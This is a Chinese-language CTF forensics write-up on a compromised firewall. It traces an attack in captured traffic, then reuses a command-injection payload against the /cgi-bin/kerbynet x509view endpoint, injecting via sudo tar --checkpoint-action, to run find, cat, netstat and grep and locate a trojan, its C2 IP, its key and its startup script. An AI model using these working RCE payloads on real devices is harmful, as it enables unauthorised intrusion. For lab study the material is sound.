










<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: ``. -->

```
1.从数据包中找出攻击者利用漏洞开展攻击的会话（攻击者执行了一条命令)，写出该会话中设置的flag。
2.通过漏洞利用获取设备控制权限，然后查找设备上的flag文件，提取flag文件内容。
3.找出受控机防火墙设备中驻留木马的外联域名或IP地址，结果提交形式：flag{xxxx}，如flag{www.abc.com}或flag{16.122.33.44}
4.请写出木马进程执行的本体文件的名称，结果提交形式：flag{xxxx}，仅写文件名不加路径
5.请提取驻留的木马本体文件，通过逆向分析找出木马样本通信使用的加密密钥。结果提交形式
6.请写出驻留木马的启动项，注意写出启动文件的完整路径。结果提交形式：flag{xxxxxxx}，如flag{/a/b/c}
```

1、分析流量包，防火墙的ip为`61.139.2.100`，猜测攻击为web的HTTP，

```
ip.addr == 61.139.2.100 && http
```




追踪HTTP流，




从Get可知，执行了`ps -ef`命令，才会有这个回显，对Referer部分base64解码



拿到第一题flag：flag{6C2E38DA-D8E4-8D84-4A4F-E2ABD07A1F3A}

2、第一问的分析过程中，发现执行了`ps -ef`命令，说明存在命令执行RCE。根据第一问分析过程中的playload去进行攻击，仅需要修改`ps -ef`命令部分，即可去查找flag文件
修改前：

``` 
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='ps -ef'%0A'
```

修改后：

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='find / -name 'flag''%0A'
```

仅把`ps%20-ef`修改为`find%20/%20-name%20'flag'` 



发现了flag文件，按照顺序尝试进行读取，还是现成的playload构造`tac`指令，拿到/Database/flag文件内容。

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='cat /Database/flag'%0A'
```




拿到第二问flag：flag{c6045425-6e6e-41d0-be09-95682a4f65c4}

3、找出驻留木马的外联域名，意思就是我们现在需要去获得当前系统的网络连接、路由表、接口信息等，在linux中需执行`netstat -anop`，根据给出的playload继续打

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='netstat -anop'%0A'
```

在url前加上view-source:应该更容易观察、分析

```
view-source:http://61.139.2.100/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='netstat -anop'%0A'
```




发现一个特殊ip，应该就是要寻找的ip
第三问flag：flag{202.115.89.103}

4、木马进程执行的本体文件的名称，上一问，我们在分析木马ip时同时找出来运行的pid，继续用playload执行`ls -l /proc/10541`命令，pid为`10541`的文件就是本体文件

```
cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec='ps'%0A'
```




第四问flag：flag{.nginx}

第五问让我们寻找加密密钥，我们先把`.nginx`文件down到本地。先找到`.nginx`文件的具体位置，用`cat`查看`.nginx`。
`ls -l /proc/10541`查找具体路径

``` 
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec='ls%20-l /proc/10541'%0A'
```




再用`cat`查看

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='cat /tmp/.nginx'%0A'
```

尝试再页面内搜索`202.115.89.103`恶意ip



发现其后跟着一堆数字字母，猜测是密钥了
第五问flag：flag{11223344qweasdzxc}

6、已经知道木马文件的名称了，直接使用`grep`查找，尝试在各个目录里查找，最后在`/var`目录发现

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec='grep -r ".nginx" /var'%0A'
```




第六问flag：flag{/var/register/system/startup/scripts/nat/File}
